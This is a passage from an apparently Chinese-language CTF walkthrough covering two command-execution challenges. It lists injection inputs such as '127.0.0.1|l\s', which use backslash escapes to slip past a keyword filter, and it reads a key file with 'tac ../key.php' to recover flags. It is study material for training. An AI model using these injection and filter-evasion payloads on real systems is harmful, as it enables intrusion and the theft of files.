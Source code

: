 ![image.png](https://img.ghostliner.top/0cImas.png)

`/tmp`﻿ 目录获取到 flag

![image.png](https://img.ghostliner.top/E67i3L.png)

## 11. 命令执行（一）

![image.png](https://img.ghostliner.top/ukakuv.png)

尝试命令

```shell
127.0.0.1|ls # 失败
127.0.0.1| # 成功，ls被过滤
127.0.0.1|pwd # 获取到当前路径 /app/vulnerabilities
```

获取到路径

![image.png](https://img.ghostliner.top/NGh3g7.png)

```shell
127.0.0.1|\l\s
```

![image.png](https://img.ghostliner.top/8FTd0h.png)

```shell
127.0.0.1|l\s ../
```

![image.png](https://img.ghostliner.top/zaecqL.png)

```shell
127.0.0.1|tac ../key.php
```

获取到 key

![image.png](https://img.ghostliner.top/GSKKU0.png)

```shell
127.0.0.1|l\s /tmp
```

获取到 flag

![image.png](https://img.ghostliner.top/UN1Kue.png)

## 12. 命令执行（二）

![image.png](https://img.ghostliner.top/cdfRhy.png)

```shell
127.0.0.1|ls ../
```
